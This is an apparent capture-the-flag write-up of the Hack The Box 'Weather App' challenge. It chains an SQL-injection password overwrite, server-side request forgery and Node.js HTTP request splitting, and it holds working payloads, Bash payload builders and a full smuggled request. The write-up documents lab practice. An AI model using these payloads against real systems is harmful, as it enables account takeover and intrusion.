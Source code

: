 # Weather App

> **A pit of eternal darkness, a mindless journey of abeyance, this feels like**
> **a never-ending dream. I think I'm hallucinating with the memories of my**
> **past life, it's a reflection of how thought I would have turned out if I**
> **had tried enough. A weatherman, I said! Someone my community would look up**
> **to, someone who is to be respected. I guess this is my way of telling you**
> **that I've been waiting for someone to come and save me. This weather**
> **application is notorious for trapping the souls of ambitious weathermen**
> **like me. Please defeat the evil bruxa that's operating this website and set**
> **me free!**

## Becoming a weatherman

### Weather flag

The app reads the flag for us if we manage to login as admin:

```javascript
if (admin) return res.send(fs.readFileSync('/app/flag').toString());
```

### Overwriting the admin

And the admin has a random 32 byte password:

```javascript
INSERT INTO users (username, password) VALUES ('admin', '${ crypto.randomBytes(32).toString('hex') }');
```

The select for the login has SQLI hardening while the insert for registering
is plain substitution:

```javascript
let query = `INSERT INTO users (username, password) VALUES ('${user}', '${pass}')`;
```

password=admin') ON CONFLICT(username) DO UPDATE SET password='pass' --+-

### Submitting the request

The whole SQLI overwrite must be triggered by a POST from the localhost:

```javascript
if (req.socket.remoteAddress.replace(/^.*:/, '') != '127.0.0.1') {
    return res.status(401).end();
}
```

Hopefully there's a node CVE for us: [request splitting][http-request-splitting]
allows to smuggle several requests in a single `http.get` call.

## Weather arcanes

To go through the localhost filter, the goal is to make the server trigger the
request itself with the former SSRF trick.

### Chaining requests

The weather api can submit GET requests:

```javascript
let weatherData = await HttpHelper.HttpGet(`http://${endpoint}/data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey}`);
```

The aim is to smuggle the POST request to `/register` in a GET to `/`.
The whole chain is:

> POST `/api/weather` => GET `/` => POST `/register`

The last POST is smuggled in a GET parameter to `endpoint=127.0.0.1`:

```
endpoint=127.0.0.1&city= HTTP/1.1
Host: 127.0.0.1:80
Connection: keep-alive


POST /register HTTP/1.1
Host: 127.0.0.1:80
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0
Connection: keep-alive
Content-Length: 95

username=admin&password=admin') ON CONFLICT(username) DO UPDATE SET password='pass'--+-

GET /?&country=register
```

Notice the SQLI to overwrite the admin password.

### Encoding

Still not quite there: the encoding doesn't fit a GET parameter and the
payload is lost.

All CR-LF, spaces, ampersand and quotes must be encoded. Either url encoded,
or UTF-8 encoded, depending on the location in the payload.

#### URL encoding

The SQLI payload, ie the body of the smuggled request, must be url encoded:

```
  => %20
' => %27
```

#### UTF-8 encoding

The rest of the smuggled request must fit in a GET parameter, without being
broken down. The following encoding keeps -courtesy of - everything together:

```bash
spc=$'Ġ'
nwl=$'Ċ'
amp=$'Ħ'
```

All occurences of `${spc}`, `${nwl}` and `${amp}` will be replaced by the corresponding UTF-8
characters in the snippets.

### Divide and conquer

The Request has 4 parts.

#### The parameters

The parameters for the weather api request:

```bash
parameters="endpoint=127.0.0.1:80&city=${spc}"
```

which actually point to the register api.

(after hours of this, everything is starting to get confused...)

#### The actually injection

```bash
upsert="') ON CONFLICT(username) DO UPDATE SET password='pass' --+-"
urle_spaces="${upsert// /%20}"
urle_sqli="${urle_spaces//\'/%27}"
sbody="username=admin${amp}password=admin${urle_sqli}"
sbody_len=$((${#sbody}+2))
```

Notice the length calculation, prepare for the request headers.

#### The headers

```bash
sheaders+="HTTP/1.1${nwl}"
sheaders+="Host:${spc}127.0.0.1:80${nwl}"
sheaders+="Connection:${spc}keep-alive${nwl}${nwl}${nwl}"

sheaders+="POST${spc}/register${spc}HTTP/1.1${nwl}"
sheaders+="Host:${spc}127.0.0.1:80${nwl}"
sheaders+="Content-Type:${spc}application/x-www-form-urlencoded${nwl}"
sheaders+="User-Agent:${spc}Mozilla/5.0${spc}(X11;${spc}Linux${spc}x86_64;${spc}rv:85.0)${spc}Gecko/20100101${spc}Firefox/85.0${nwl}"
sheaders+="Connection:${spc}keep-alive${nwl}"
sheaders+="Content-Length:${spc}${sbody_len}${nwl}${nwl}"
```

#### A test

And another request so that the whole string assembled in the weather module
is coherent:

```bash
test="${nwl}${nwl}GET${spc}/?&country=register"
```

Putting it all together:

```bash
request=${parameters}${sheaders}${sbody}${test}
```

Burp recorded the whole abomination:

```
POST /api/weather HTTP/1.1
Host: 127.0.0.1:1337
User-Agent: curl/7.77.0
Accept: */*
Content-Length: 462
Content-Type: application/x-www-form-urlencoded
Connection: close

endpoint=127.0.0.1:80&city=ĠHTTP/1.1ĊHost:Ġ127.0.0.1:80ĊConnection:Ġkeep-aliveĊĊĊPOSTĠ/registerĠHTTP/1.1ĊHost:Ġ127.0.0.1:80ĊContent-Type:Ġapplication/x-www-form-urlencodedĊUser-Agent:ĠMozilla/5.0Ġ(X11;ĠLinuxĠx86_64;Ġrv:85.0)ĠGecko/20100101ĠFirefox/85.0ĊConnection:Ġkeep-aliveĊContent-Length:Ġ110ĊĊusername=adminĦpassword=admin%27)%20ON%20CONFLICT(username)%20DO%20UPDATE%20SET%20password=%27pass%27%20--+-ĊĊGETĠ/?&country=register
```

This has been my biggest struggle on HTB so far!

[http-request-splitting]: https://hackerone.com/reports/409943